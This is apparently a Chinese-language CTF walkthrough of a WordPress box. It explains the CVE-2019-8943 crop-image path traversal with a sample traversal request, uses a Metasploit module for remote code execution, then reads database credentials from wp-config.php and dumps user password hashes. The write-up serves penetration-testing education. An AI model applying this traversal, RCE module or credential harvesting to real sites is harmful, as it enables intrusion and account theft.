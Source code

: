 CVE-2019-8943。在wp-admin/include /image.php中的wp_crop_image函数(允许WordPress用户将图像裁剪到给定的大小或分辨率)中，php在保存文件之前不会验证.dst(绘图表文件)的文件路径。

<img src='https://nimg.ws.126.net/?url=http%3A%2F%2Fdingyue.ws.126.net%2FUvGcBKGih168nn0dyNJqh2pl4MqT7ZXSChCNi2RNZYisS1551443009850.png&thumbnail=660x2147483647&quality=80&type=jpg' />

wp_crop_image函数试图访问本地文件

一旦修改了meta_key中的文件名，文件(例如图3中的evil1.jpg?../和../evil1.jpg)将不会在upload目录中找到。因此，它将回退到wp_crop_image函数中的下一个If条件，并尝试通过URL访问该文件。此步操作需要在WordPress站点中安装文件复制插件。请求如下所示：

    /evil1.jpg?../../evil1.jpg

在加载图像时，“?”之后的路径将被忽略。图像加载后，攻击者可以裁剪图像，它将遵循路径遍历并将其保存在任意目录中。

参考文章：https://www.163.com/dy/article/E977V9KN0511CJ6O.html

---

## Get shell

了解完原理，这里我选择使用msf快速上线

    exploit/multi/http/wp_crop_rce

拿到shell后发现user.txt在bjoel的家目录下，是假的：

    find / -type f -name user.txt 2>/dev/null

也没找到，先不管了

## 有个声音一直在提醒我，第一时间先找config配置文件 - 横向移动

bjoel用户刚刚在wp中是存在该用户的，不妨我们假设该用户ssh使用与wp相同的密码

wp-config.php查看到数据库用户名和密码：

    /** MySQL database username */
    define('DB_USER', 'wordpressuser');

    /** MySQL database password */
    define('DB_PASSWORD', 'LittleYellowLamp90!@');

结果：

    mysql> select * from wp_users
    select * from wp_users
        -> ;
    ;
    +----+------------+------------------------------------+---------------+------------------------------+----------+---------------------+---------------------+-------------+---------------+
    | ID | user_login | user_pass                          | user_nicename | user_email                   | user_url | user_registered     | user_activation_key | user_status | display_name  |
    +----+------------+------------------------------------+---------------+------------------------------+----------+---------------------+---------------------+-------------+---------------+
    |  1 | bjoel      | $P$BjoFHe8zIyjnQe/CBvaltzzC6ckPcO/ | bjoel         | nconkl1@outlook.com          |          | 2020-05-26 03:52:26 |                     |           0 | Billy Joel    |
    |  3 | kwheel     | $P$BedNwvQ29vr1TPd80CDl6WnHyjr8te. | kwheel        | zlbiydwrtfjhmuuymk@ttirv.net |          | 2020-05-26 03:57:39 |                     |           0 | Karen Wheeler |
    +----+------------+------------------------------------+---------------+------------------------------+----------+---------------------+---------------------+-------------+---------------+
    2 rows in set (0.00 sec)
